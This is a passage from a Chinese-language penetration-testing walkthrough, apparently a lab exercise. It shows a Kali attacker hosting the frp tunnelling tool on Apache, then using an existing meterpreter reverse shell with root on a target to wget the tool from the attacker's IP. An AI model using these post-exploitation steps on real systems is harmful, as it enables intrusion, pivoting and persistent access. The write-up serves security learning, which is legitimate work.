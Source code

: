 ![image-20211012220153531](/assets/image-20211012220153531.png)



kali复制frp_0.37.1_linux_amd64.tar.gz到web服务路径下：/var/www/html 

```shell
┌──(kali㉿kali)-[~]
└─$ sudo cp frp_0.37.1_linux_amd64.tar.gz /var/www/html            #复制frp到web服务路径下：/var/www/html  
[sudo] kali 的密码：

┌──(kali㉿kali)-[~]
└─$ systemctl start apache2                                        #开启apache2服务
==== AUTHENTICATING FOR org.freedesktop.systemd1.manage-units ===
启动“apache2.service”需要认证。
Authenticating as: Kali,,, (kali)
Password:
==== AUTHENTICATION COMPLETE ===

┌──(kali㉿kali)-[~]
└─$
```



kali机器上：通过已经得到的反弹shell下，`wget http://192.168.111.132/frp_0.37.1_linux_amd64.tar.gz`下载

```
meterpreter > shell           #获得系统的shell
Process 9697 created.
Channel 1 created.
id                           #id命令
uid=0(root) gid=0(root) groups=0(root),994(docker) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
wget http://192.168.111.132/frp_0.37.1_linux_amd64.tar.gz        #wget下载frp
--2021-10-13 15:14:34--  http://192.168.111.132/frp_0.37.1_linux_amd64.tar.gz
Connecting to 192.168.111.132:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9033483 (8.6M) [application/x-gzip]
Saving to: 'frp_0.37.1_linux_amd64.tar.gz.1'
```